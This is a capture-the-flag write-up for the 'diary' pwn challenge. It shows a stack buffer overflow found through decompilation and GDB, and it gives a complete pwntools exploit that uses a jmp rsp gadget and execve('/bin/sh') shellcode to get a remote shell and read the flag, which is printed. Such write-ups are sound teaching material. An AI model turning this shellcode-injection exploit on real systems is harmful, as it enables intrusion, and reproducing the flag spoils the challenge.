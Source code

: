 # DIARY

## Description

> How was your day?
>
> Author: tomadimitrie
>
> [diary](./diary)

Tags: _web|warmup_

## Solution

This challenge comes with the vulnerable binary only, the first thing to do is check the binary's security posture using `checksec` to give us an idea of what could be the way in vector.

```shell
$ checksec diary
[*] '/home/jovenoven/Downloads/TFC_CTF/pwn/diary/diary'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments

```

We can see that its security is terrible, almost every security defense is disabled making things easier for us.

I will use `ghidra` to see what the program does exactly inside. There are only two functions: _main()_ and _vuln()_.

This is the _main()_ function, which in summary just calls the _vuln()_ function.

```c
undefined8 main(void)

{
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stderr,(char *)0x0,2,0);
  vuln();
  return 0;
}
```

and this is the `vuln()` function:

```c
void vuln(void)

{
  undefined8 local_108;
  undefined8 local_100;
  undefined8 local_f8;
  undefined8 local_f0;
  undefined8 local_e8;
  undefined8 local_e0;
  undefined8 local_d8;
  undefined8 local_d0;
  undefined8 local_c8;
  undefined8 local_c0;
  undefined8 local_b8;
  undefined8 local_b0;
  undefined8 local_a8;
  undefined8 local_a0;
  undefined8 local_98;
  undefined8 local_90;
  undefined8 local_88;
  undefined8 local_80;
  undefined8 local_78;
  undefined8 local_70;
  undefined8 local_68;
  undefined8 local_60;
  undefined8 local_58;
  undefined8 local_50;
  undefined8 local_48;
  undefined8 local_40;
  undefined8 local_38;
  undefined8 local_30;
  undefined8 local_28;
  undefined8 local_20;
  undefined8 local_18;
  undefined8 local_10;

  puts("Dear diary...");
  local_108 = 0;
  local_100 = 0;
  local_f8 = 0;
  local_f0 = 0;
  local_e8 = 0;
  local_e0 = 0;
  local_d8 = 0;
  local_d0 = 0;
  local_c8 = 0;
  local_c0 = 0;
  local_b8 = 0;
  local_b0 = 0;
  local_a8 = 0;
  local_a0 = 0;
  local_98 = 0;
  local_90 = 0;
  local_88 = 0;
  local_80 = 0;
  local_78 = 0;
  local_70 = 0;
  local_68 = 0;
  local_60 = 0;
  local_58 = 0;
  local_50 = 0;
  local_48 = 0;
  local_40 = 0;
  local_38 = 0;
  local_30 = 0;
  local_28 = 0;
  local_20 = 0;
  local_18 = 0;
  local_10 = 0;
  fgets((char *)&local_108,0x400,stdin);
  return;
}
```

It defines a lot of local variables and calls the function `fgets()` with a boundary in hexadecimal of `0x400 bytes` or `1024 bytes` in decimal, which could still be vulnerable to a `buffer overflow` attack. We can check it by executing the program and filling it with a large input. (don't forget to give the binary execute privileges using `chmod +x diary`)

```
$ ./diary
Dear diary...
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Segmentation fault
```

The program throws a `Segmentation fault`, which means that indeed it is vulnerable to buffer overflow attacks.

So, the process to exploit this vulnerability is the following:

1. Find the offset between the start of the user input and the return address in the stack.
2. Fill with nops the stack until it reaches the return address
3. Overwrite the return address with a `jump rsp` gadget which will redirect the flow execution to the shellcode we write after the gadget
4. A small padding of no-ops to give more flexibility to the payload
5. The shellcode that will give us a shell by calling `execve("/bin/sh")`

To find the offset, I debugged the program using `GDB`,

```
$ gdb diary
```

then I used `cyclic` which is available with `pwndbg` to create a 300 character payload to make it easy to find the offset.

```
pwndbg> cyclic 300
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaazaaaaaabbaaaaaabcaaaaaabdaaaaaabeaaaaaabfaaaaaabgaaaaaabhaaaaaabiaaaaaabjaaaaaabkaaaaaablaaaaaabmaaa
```

run the binary, it should crash trying to go to the specific memory address in `ret` (return address) `0x6261616161616169`. Use `cyclic` again to get the exact offset where we will start overwriting the return address.

```
pwndbg> cyclic -l 0x6261616161616169
Finding cyclic pattern of 8 bytes: b'iaaaaaab' (hex: 0x6961616161616162)
Found at offset 264
```

You can do the next steps manually using commands like `ropper` to find gadgets or `msfvenom` to create shellcode, but I decided to automate the process using `pwntools`, a powerful library in python for binary exploitation. Please note that the exploit is encapsulated inside "equal" characters, the rest of the code is more like a template. Don't forget to change the remote connection parameters with the actual values of your container.

```python
#!/usr/bin/python3
from pwn import *

# Set up the target binary by specifying the ELF file
elf = context.binary = ELF("diary")

# Defining the GDB script that will be used when running the binary
gs = '''
continue
'''
# Launch the binary with GDB, without GDB or REMOTE based on the command-line arguments
def start():
    if args.REMOTE:
        return remote("challs.tfcctf.com", 32439)
    else:
        if args.GDB:
            return gdb.debug(elf.path, gdbscript=gs)
        else:
            return process(elf.path)

io = start()

#=======================================================================================

# Find jmp rsp gadget
jmp_rsp = asm('jmp rsp')
jmp_rsp = next(elf.search(jmp_rsp))

# Prepare shellcode to drop a shell
shellcode = asm("shellcode:" + shellcraft.execve("/bin/sh"))

# Overwrite the return address with the jmp_rsp gadget's memory address to execute our shellcode
payload = asm("nop")*264 + p64(jmp_rsp) + asm("nop")*16 + shellcode

# Send the payload
io.sendline(payload)

#=======================================================================================

# Interact with the process
io.interactive()
```

Use again `chmod` to provide the script with execution privileges:

```
$ chmod +x solve.py
```

Finally, execute the script with the `REMOTE` option and you should get a shell! (be patient, it would take a minute since it is crafting all the payload)

```shell
$ ./solve.py REMOTE
[*] '/home/jovenoven/Downloads/TFC_CTF/pwn/diary/diary'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
[+] Opening connection to challs.tfcctf.com on port 30389: Done
[*] Switching to interactive mode
Dear diary...
$ whoami
ctf
$ ls
diary
flag.txt
$ cat flag.txt
TFCCTF{94fa3e5538d57f71937a85076e96fbc5c00f8fddbbcbb8b4b6db1df9e599d1d6}
$ exit
[*] Got EOF while reading in interactive
```

I also recommend watching [this](https://www.youtube.com/watch?v=wa3sMSdLyHw&list=PLHUKi1UlEgOIc07Rfk2Jgb5fZbxDPec94&pp=iAQB) series of videos if you are new to pwn challenges, I think he explains really well and also provides more resources to better understand the theory, watch the fifth video ["Injecting shellcode"](https://youtu.be/4zut2Mjgh5M?list=PLHUKi1UlEgOIc07Rfk2Jgb5fZbxDPec94) of the series since he explains further how to solve these specific kind of challenges.

Flag `TFCCTF{94fa3e5538d57f71937a85076e96fbc5c00f8fddbbcbb8b4b6db1df9e599d1d6}`
